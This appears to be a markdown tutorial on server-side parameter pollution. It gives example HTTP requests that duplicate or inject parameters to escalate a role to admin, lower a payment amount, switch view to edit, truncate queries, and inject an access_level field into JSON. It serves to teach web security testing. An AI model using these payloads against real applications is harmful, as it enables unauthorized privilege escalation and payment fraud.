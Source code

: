 Server-Side Parameter Pollution (SSPP) is a web vulnerability where an attacker injects multiple parameters with the same name into an HTTP request. The server may interpret these parameters in unexpected ways, potentially leading to security issues such as unauthorized access, privilege escalation, or bypassing security controls.

### Testing for Server-Side Parameter Pollution

1. **Duplicate Parameters Handling:**
   - Send multiple parameters with the same name and different values to see how the server processes them. Different servers or frameworks may use the first, last, or a combination of parameter values.
   
2. **Parameter Injection in Different Contexts:**
   - Try injecting additional parameters into the URL, query string, body, or headers to see how they interact with existing parameters.

3. **Interfering with Security or Business Logic:**
   - Manipulate parameters to change roles, privileges, or other security-sensitive data.

### Example Scenarios with HTTP Requests

#### Scenario 1: Manipulating User Roles (Privilege Escalation)
Assume there is an endpoint that allows a user to update their profile information, and there is a parameter named `role` that determines the user's role.

**Original Request:**
```
POST /updateProfile
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=john&role=user
```

An attacker can attempt SSPP by injecting a second `role` parameter with a higher privilege.

**Manipulated Request:**
```
POST /updateProfile
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=john&role=user&role=admin
```

If the server takes the last parameter's value or combines them, the attacker may gain admin privileges.

#### Scenario 2: Bypassing Payment Validation
In an e-commerce platform, assume there is an endpoint to process payments, where the `amount` parameter indicates the transaction amount.

**Original Request:**
```
POST /processPayment
Host: shop.com
Content-Type: application/x-www-form-urlencoded

amount=100
```

By adding another `amount` parameter with a different value, an attacker can see if the server uses a different value.

**Manipulated Request:**
```
POST /processPayment
Host: shop.com
Content-Type: application/x-www-form-urlencoded

amount=100&amount=1
```

If the server accepts the second `amount` value, the attacker may pay only 1 unit instead of 100.

#### Scenario 3: URL Parameter Injection (Overriding Default Behavior)
An application might use a URL parameter to control access to different functionalities, such as `action=view` or `action=edit`.

**Original Request:**
```
GET /document?action=view&id=123
Host: documents.com
```

An attacker tries injecting another `action` parameter to see if it changes the server's behavior.

**Manipulated Request:**
```
GET /document?action=view&action=edit&id=123
Host: documents.com
```

If the server uses the second `action` parameter, the attacker might gain edit permissions.

### Scenario 4: Truncating query strings

You can use a URL-encoded # character to attempt to truncate the server-side request. To help you interpret the response, you could also add a string after the # character.

**Original Request**
```
GET /userSearch?name=peter&back=/home
```
**Manipulated Request:**
```
GET /users/search?name=peter#&publicProfile=true
```
### Scenario 5: Structured Data Formats
Consider an application that enables users to edit their profile, then applies their changes with a request to a server-side API. When you edit your name, your browser makes the following request:
```
POST /myaccount
name=peter
```
This results in the following server-side request:
```
PATCH /users/7312/update
{"name":"peter"}
```

You can attempt to add the access_level parameter to the request as follows:
POST /myaccount
```name=peter","access_level":"administrator```

If the user input is added to the server-side JSON data without adequate validation or sanitization, this results in the following server-side request:
```
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```
This may result in the user peter being given administrator access.<br>
***Consider a similar example, but where the client-side user input is in JSON data. When you edit your name, your browser makes the following request:***
```
POST /myaccount
{"name": "peter"}
```
This results in the following server-side request:
```
PATCH /users/7312/update
{"name":"peter"}
```
You can attempt to add the access_level parameter to the request as follows:
```
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```
If the user input is decoded, then added to the server-side JSON data without adequate encoding, this results in the following server-side request:
```
PATCH /users/7312/update
{"name":"peter","access_level":"administrator"}
```
Again, this may result in the user peter being given administrator access.
